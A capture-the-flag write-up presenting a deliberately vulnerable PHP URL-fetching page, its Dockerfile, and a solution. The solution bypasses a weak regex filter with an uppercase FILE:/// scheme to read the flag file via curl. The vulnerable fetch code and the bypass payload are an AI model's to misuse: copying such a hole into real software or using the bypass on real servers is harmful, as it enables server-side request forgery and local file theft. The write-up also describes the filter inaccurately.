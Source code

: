 
## source code 
```php
<?php

function send($link){

$curl_handle=curl_init();

curl_setopt($curl_handle,CURLOPT_URL,$link);

curl_setopt($curl_handle,CURLOPT_CONNECTTIMEOUT,2);

curl_setopt($curl_handle,CURLOPT_RETURNTRANSFER,1);

$buffer = curl_exec($curl_handle);

curl_close($curl_handle);


if (empty($buffer)){
return "Nothing returned from url.<p>";
}else{
return $buffer;
}
}

  
  

if (!empty($_GET['url'])){
$url=$_GET['url'];

if(preg_match('/^http/',$url) || !preg_match('/file/',$url)){
echo send($url);
}else{
die("Don't Hack Me Plzzz");
}

}

?>


<html lang="en">

<head>

<meta charset="UTF-8">

<meta name="viewport" content="width=device-width, initial-scale=1.0">

<title>Document</title>

</head>

<body>

Hello

</body>

</html>

```

## docker file 
```docker 
FROM php:7.4-apache

# Copy files from the src/ folder to the image

COPY src/ /var/www/html

COPY flag.txt /

# Expose port 80 for Apache

EXPOSE 80
```

## breakdown for the code 
- using `url` get parameter the app take a url and get the content of it
- the words `http` and `file` is blocked

##### protocol scheme are acceptable in small and capital letters so juts use
```
FILE:///flag.txt
```

```bash
curl "http://20.121.4.239:1337/?url=FILE:///flag.txt"     

CATF{An0Th3er_EZzzzZz_On3}   
  
<html lang="en">  
<head>  
   <meta charset="UTF-8">  
   <meta name="viewport" content="width=device-width, initial-scale=1.0">  
   <title>Document</title>  
</head>  
<body>  
   Hello  
</body>  
</html>
```

##### here is our flag
```
CATF{An0Th3er_EZzzzZz_On3}
```